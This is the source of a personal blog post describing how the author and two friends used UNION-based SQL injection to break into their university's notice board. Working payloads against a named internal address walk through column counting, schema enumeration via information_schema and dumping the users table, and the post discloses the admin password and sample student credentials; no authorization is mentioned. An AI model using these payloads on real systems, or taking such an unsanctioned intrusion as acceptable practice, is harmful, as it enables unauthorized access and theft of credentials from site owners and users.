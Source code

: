 ```yaml
---
layout: post
title: How we hacked our university notice board?
date: 2014-07-10 06:44:56.000000000 +05:30
excerpt: "A post explaining how we hacked our notice board of our university by exploiting a SQL Injection vulnerability"
type: post
published: true
status: publish
author: Nagesh Podilapu a.k.a H4rryp0tt3r
assetID: 33ed6b071854135c17600a86a1d8876a
---
```


It's been nearly 3 months since my last post. Today I thought It will be helpful for the guys who are interested in Cyber Security, If I write about UNION Based SQLi that we did on our university notice board.
A little learning part before we jump on to exploitation.

<pre>
<b># Just selecting 1 2 and 3</b>
mysql> select 1,2,3;
+---+---+---+
| 1 | 2 | 3 |
+---+---+---+
| 1 | 2 | 3 |
+---+---+---+

<b># database() is a MySQL function to get current database name.</b>
mysql> select database();
+-----------------+
| database()      |
+-----------------+
| UNIONBased_SQLi |
+-----------------+

<b># Just selecting 1,database(),3</b>
mysql> select 1,database(),3;
+---+-----------------+---+
| 1 | database()      | 3 |
+---+-----------------+---+
| 1 | UNIONBased_SQLi | 3 |
+---+-----------------+---+

<b># group_concat() is a MySQL function which concatenates all the rows</b>
mysql> select group_concat(username,"-",password) from users;
+---------------------------------------------------+
| group_concat(username,"-",password)               |
+---------------------------------------------------+
| admin-admin@onb,N090001-rgukt123,N090002-rgukt123 |
+---------------------------------------------------+

<b># Example of a MySQL UNION operator. </b>
mysql> select 1,2,3 UNION select 4,5,6;
+---+---+---+
| 1 | 2 | 3 |
+---+---+---+
| 1 | 2 | 3 |
| 4 | 5 | 6 |
+---+---+---+

<b># UNION only works when two select statements have the same no.of columns.</b>
mysql> select 1,2,3 UNION select 5,6;
ERROR: The used SELECT statements have a different number of columns

<b># To nullify the result of LHS select statement I appended a condition 1=0
 which is false. So the results include only RHS select statement results.</b>
mysql> select username from users where sno=1 and 1=0 UNION select 1;
+----------+
| username |
+----------+
| 1        |
+----------+
</pre>

Good, now let's have a glance at why we started this.

After doing brute-force attack on a web page for getting flag in a [CTF][ctf-about-link]{:target="_blank"}, we thought It would give us admin rights If we can do the same attack on our notice board too. But later we realized that we can't just get the admin password by a filthy brute-force attack.

So we explored that website a bit and noticed that there is a page `notice_view.php?id=1` which takes `id` as GET parameter.

{% include image.html url="/assets/33ed6b071854135c17600a86a1d8876a/onb.png" description="notice_view.php page" %}

As we are web developers we came to an estimation that the backend MySQL query might be

{% highlight text %}
select * from tablename where somecolumnname=$_GET["id"];
{% endhighlight %}

Yeah... That one seems compromising and we just gave it a shot with our best injection payload i.e (single quote) into the GET parameter id. Viola!!

{% highlight text %}
You have an error in your SQL syntax; check the manual that corresponds
to your MySQL server version for the right syntax to use near ''' at line 1
{% endhighlight %}

Yes! This is vulnerable & we can proceed with exploitation. The best part starts now.

Our next step is to find database name that is used for storing passwords. Exciting isn't it? And we used the below payload

{% highlight text %}
1 and 1=0 UNION select 1,2,3,4,5 --
{% endhighlight %}

So the resultant query becomes

{% highlight text %}
select * from sometablename where
somecolumnname=1 and 1=0 UNION select 1,2,3,4,5 --;
{% endhighlight %}

That payload resulted in an error

{% highlight text %}
The used SELECT statements have a different number of columns
{% endhighlight %}

Yeah it worked. To apply union on 2 SQL query's both must have same no.of columns. But here we didn't know the no.of columns, so to find no.of columns we tried imagining from 1 to some number until which we will not get an SQL error. We used below payloads, and 3rd one made it!

{% highlight text %}
http://10.2.42.242/ONB/notice_view.php?id=1 and 1=0 UNION select 1--
http://10.2.42.242/ONB/notice_view.php?id=1 and 1=0 UNION select 1,2--
http://10.2.42.242/ONB/notice_view.php?id=1 and 1=0 UNION select 1,2,3--
{% endhighlight %}

{% include image.html url="/assets/33ed6b071854135c17600a86a1d8876a/injected.png" description="First Injection point" %}

So the backend query which is fetching notices is selecting 3 columns, but the web page is displaying only 2 & 3 (So these columns are vulnerable) and anything we inject in those columns that will display the result of that injected query on web page.

Cool, so now we can inject a code that will print database name on web page. There is a MySQL function `database()` which will display the current selected database. So we can use that function in any of the columns 2 (or) 3.

{% highlight text %}
http://10.2.42.242/ONB/notice_view.php?id=1 and 1=0 UNION select 1,database(),3--
{% endhighlight %}

And result of this query is..

{% include image.html url="/assets/33ed6b071854135c17600a86a1d8876a/database.png" description="Database name being displayed on page" %}

We have the database name `Notices`, now we have to find the table name for that we will use the mysql default Database which stores information of all the databases in it. So we have to extract all the information related to the database `Notices`. In order to do so we have used this payload

{% highlight text %}
http://10.2.42.242/ONB/notice_view.php?id=1 and
1=0 UNION select 1,group_concat(TABLE_NAME),3 from information_schema.TABLES
where TABLE_SCHEMA='Notices' --
{% endhighlight %}

And the result is

{% include image.html url="/assets/33ed6b071854135c17600a86a1d8876a/tables.png" description="Table names being displayed on page" %}

Now we got all the tables in `Notices` Database and those are `notices, users`. This 'users' table seems interesting and we chose to see the contents of 'users' table first. But before that we should know the columns names of that table, information_schema is our friend now.

{% highlight text %}
http://10.2.42.242/ONB/notice_view.php?id=1 and 1=0 UNION
select 1,group_concat(COLUMN_NAME),3 from information_schema.COLUMNS where
TABLE_NAME='users' AND TABLE_SCHEMA='Notices'--
{% endhighlight %}

{% include image.html url="/assets/33ed6b071854135c17600a86a1d8876a/columns.png" description="Column names being displayed on page" %}

Now we just need to print password column from that table, used below payload.

{% highlight text %}
http://10.2.42.242/ONB/notice_view.php?id=1 and 1=0
UNION select 1,group_concat(username,"-",password),3 from users --
{% endhighlight %}

Result is...

{% include image.html url="/assets/33ed6b071854135c17600a86a1d8876a/passwords.png" description="Passwords being displayed on page" %}

Ah! Finally, the admin password is on page and it is: `admin@onb`

And in this post I keep on mentioning we. So we are

[Nageswara Rao Podilapu (Me)](https://www.facebook.com/H4rryp0tt3r7){:target="_blank"} <br>
[Anesh Parvatha](https://www.facebook.com/anesh.cse){:target="_blank"} <br>
[Ambati Bharath](https://www.facebook.com/bharath.hussy){:target="_blank"}

[ctf-about-link]: https://ctftime.org/ctf-wtf/
